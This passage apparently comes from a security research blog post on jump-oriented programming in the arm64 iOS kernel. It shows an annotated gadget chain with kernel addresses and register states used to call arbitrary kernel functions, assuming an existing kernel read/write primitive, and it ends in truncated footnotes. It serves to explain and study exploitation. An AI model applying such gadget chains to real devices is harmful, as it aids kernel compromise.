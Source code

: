 ```
	pc = JOP_DISPATCH

;; Just after the prologue we have the following register values:
;; 	x0 = REGION_POPULATE_VALUES
;; 	x1 = JOP_CHAIN_1
;; 	x8 = JOP_DISPATCH
;; 	x19 = REGION_POPULATE_VALUES
;; We will populate registers using GADGET_POPULATE_2. Since we're using this
;; gadget with JOP_DISPATCH, we first need to initialize x20 to JOP_CHAIN_2 and
;; x23 to REGION_POPULATE_VALUES.

JOP_DISPATCH (0xfffffff006a4e1a8):
		ldp x2, x1, [x1]
		br x2
	x2 = MOV_X23_X19__BR_X8
	pc = MOV_X23_X19__BR_X8

MOV_X23_X19__BR_X8 (0xfffffff00674c99c)
		mov x23, x19
		br x8
	x23 = REGION_POPULATE_VALUES
	pc = JOP_DISPATCH
	x2 = GADGET_INITIALIZE_X20_1
	pc = GADGET_INITIALIZE_X20_1

GADGET_INITIALIZE_X20_1 (0xfffffff006291d34):
		;; This is a hack to get x20 to point to JOP_CHAIN_2 before
		;; using GADGET_POPULATE_2.
		ldr x20, [x19, #0xc0]
		ldr x8, [x0]
		ldr x8, [x8, #0xa0]
		blr x8
	x20 = REGION_POPULATE_VALUES[0xc0] = JOP_CHAIN_2
	x8 = REGION_POPULATE_VALUES[0] = REGION_1
	x8 = REGION_1[0xa0] = JOP_DISPATCH
	pc = JOP_DISPATCH
	x2 = MOV_X25_X19__BR_X8
	pc = MOV_X25_X19__BR_X8

;; We're about to execute GADGET_POPULATE_2. We want to fill the following
;; registers:
;; 	x19 = ARGUMENT_0
;; 	x20 = ARGUMENT_1
;; 	x21 = ARGUMENT_13
;; 	x22 = ARGUMENT_12
;; 	x23 = REGION_ARGUMENTS_2_TO_11
;;	x24 = FUNCTION
;; 	x25 = REGION_POPULATE_VALUES (CALL_RESUME)
;; Last of all we want to set:
;; 	x8 = GADGET_CALL_FUNCTION_1
;; 	pc = GADGET_POPULATE_2
;; The GADGET_POPULATE_2 gadget will give us control of the following
;; registers:
;; 	x3, x4, x5, x6, x7, x9, x10, x11, x12
;; Since we already have REGION_POPULATE_VALUES in x19, we'll set x25 now.

MOV_X25_X19__BR_X8 (0xfffffff006707570):
		mov x25, x19
		br x8
	x25 = REGION_POPULATE_VALUES
	pc = JOP_DISPATCH
	x2 = GADGET_POPULATE_2
	pc = GADGET_POPULATE_2
```

[call_strategy_1.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_1.c
[call_strategy_3.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_3.c
[call_strategy_5.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_5.c
[iokit_user_client_trap]: https://conference.hitb.org/hitbsecconf2013kul/materials/D2T2%20-%20Stefan%20Esser%20-%20Tales%20from%20iOS%206%20Exploitation%20and%20iOS%207%20Security%20Changes.pdf
[Procedure Call Standard for the ARM 64-bit Architecture]: http://infocenter.arm.com/help/topic/com.arm.doc.ihi0055b/IHI0055B_aapcs64.pdf
[ARM64 Function Calling Conventions]: https://developer.apple.com/library/content/documentation/Xcode/Conceptual/iPhoneOSABIReference/Articles/ARM64FunctionCallingConventions.html
[jump-oriented programming]: https://repository.lib.ncsu.edu/bitstream/handle/1840.4/4135/TR-2010-8.pdf
[ipsw.me]: https://ipsw.me
[joker]: http://newosxbook.com/tools/joker.html
[memctl]: https://github.com/bazad/memctl
[ROPgadget]: https://github.com/JonathanSalwan/ROPgadget
[Capstone]: https://github.com/aquynh/capstone
[^1]: I've gotten in the habit of referring to jump-oriented programs as "JOP programs", despite
[^2]: Of course, if you have a kernel memory read/write primitive, as I'm assuming for this post,
[^3]: I'm not sure why Apple refers to its architecture as arm64 while ARM refers to the 64-bit
[^4]: My ROPgadget patch adds a few lines so that all segments and sections marked with the execute
[^5]: Here we are assuming that all the saved arguments in the structure are 64 bits, which means
[^6]: The first two gadgets might initially seem useful because they load register `x8`, the
